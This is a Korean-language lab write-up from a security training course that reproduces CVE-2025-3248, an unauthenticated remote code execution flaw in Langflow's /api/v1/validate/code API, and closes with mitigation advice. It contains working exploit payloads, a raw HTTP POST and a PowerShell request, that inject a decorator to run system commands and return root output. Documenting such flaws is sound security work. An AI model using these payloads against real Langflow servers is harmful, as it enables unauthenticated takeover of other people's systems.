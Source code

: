 ### *Langflow validate/code API pre-Auth Remote Code Execution*
(CVE-2025-3248)

화이트햇 스쿨 3기 - 권석재 @seokjea

# **요약**

Langflow 1.3.0 이전 버전의 /api/v1/validate/code API에서는 사용자 입력을 파싱한 뒤 exec 함수로 실행하는 구조를 가지고 있어, Python의 데코레이터 
또는 기본 인자 표현식에 악성 코드를 삽입함으로써 인증 없이 원격 코드 실행(RCE)이 가능하다.
공격자는 서버 권한으로 임의 시스템 명령어를 실행할 수 있으며, 서버 내부 정보 탈취 및 추가 공격으로 이어질 위험이 있다.

# 환경 구성 및 실행

- `docker compose up -d` 를 실행하여 테스트 환경을 실행
- (your-ip:7860) http://localhost:7860/ 접속
- 쿼리 실행하여 id 명령어 실행됐는지 확인

- # 취약점 재현 방법

## BurpSuite를 통한 요청 시도

- BurpSuite Repeater를 사용하여 POST 요청을 시도하였으나,
- "Failed to connect to localhost" 에러 발생
- 원인: BurpSuite와 Docker 네트워크 분리 문제
- 조치: PowerShell의 `Invoke-WebRequest`로 직접 요청 전환

- ### BurpSuite 전송 Payload (초기 시도)

POST /api/v1/validate/code HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json

{"code": "@exec(\"raise Exception(**import**('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}

![image.png](attachment:bc37fc95-756f-450e-a038-86a1cf7aa24b:image.png)

## PowerShell을 통한 직접 요청 (Invoke-WebRequest 사용) 재현 성공

Invoke-WebRequest -Uri "http://localhost:7860/api/v1/validate/code"   `-Method POST`
-ContentType "application/json" `
-Body '{"code": "@exec(''raise Exception(**import**(\"subprocess\").check_output([\"id\"]))'')\ndef foo():\n    pass"}'

# 결과

![image.png](attachment:330e36d9-8e6b-4be9-950f-4d3182116127:image.png)

서버에서 id 명령어가 실행되어

uid =0(root) 결과를 반환받아  코드가 실행된 것을 확인하였다.

# 정리

Langflow `/api/v1/validate/code` API의 취약점은 코드 검증 과정에서 사용자 입력을 안전하게 처리하지 않고 `exec` 함수로 실행함으로써, 
인증 없이 임의 시스템 명령어를 실행할 수 있는 위험성을 보여준다. 이로 인해 서버 권한 탈취, 내부 정보 노출, 추가 공격이 가능해진다. 
이러한 문제를 예방하기 위해서는 사용자 입력에 대한 엄격한 검증, 위험 함수(exec 등) 사용 금지, AST 기반 화이트리스트 필터링 적용, 
그리고 소프트웨어를 최신 버전으로 업데이트하는 등의 보안 조치가 반드시 필요하다.
